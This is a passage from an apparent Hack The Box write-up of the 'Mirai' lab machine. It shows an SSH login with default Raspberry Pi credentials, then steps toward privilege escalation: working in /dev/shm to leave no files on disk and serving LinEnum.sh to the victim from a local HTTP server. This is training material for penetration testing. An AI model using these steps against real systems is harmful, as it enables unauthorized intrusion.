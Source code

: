 ```
root@kali:~/htb/mirai# ssh pi@10.10.10.48 -oKexAlgorithms=+diffie-hellman-group1-sha1
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.48' (ECDSA) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```
We get a un-privileged access using the credentials.

## Establish Foothold

The first thing I usually do when I have an initial foothold on a system is to upgrade our shell. This is because some tasks and exploits in our privesc may require a full TTY to work. Trust me, I have learned this the hard way.

At this point we have valid credentials and a nice ssh shell that is fully responsive, so we have a pretty good foothold.


## Privilege Escalation


To avoid writing any file to disk I move to the /dev/shm folder. So what is /dev/shm? "Linux 2.6 kernel builds have started to offer /dev/shm as shared memory in the form of a ramdisk, more specifically as a world-writable directory that is stored in memory with a defined limit in /etc/default/tmpfs."

We transfer our files to the victim over http by setting up a local webserver in the directory that we have our privesc scripts:

```
root@kali:~/tools/privesc# python -m SimpleHTTPServer                                                
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.48 - - [22/Oct/2018 21:01:28] "GET /LinEnum.sh HTTP/1.1" 200 
```
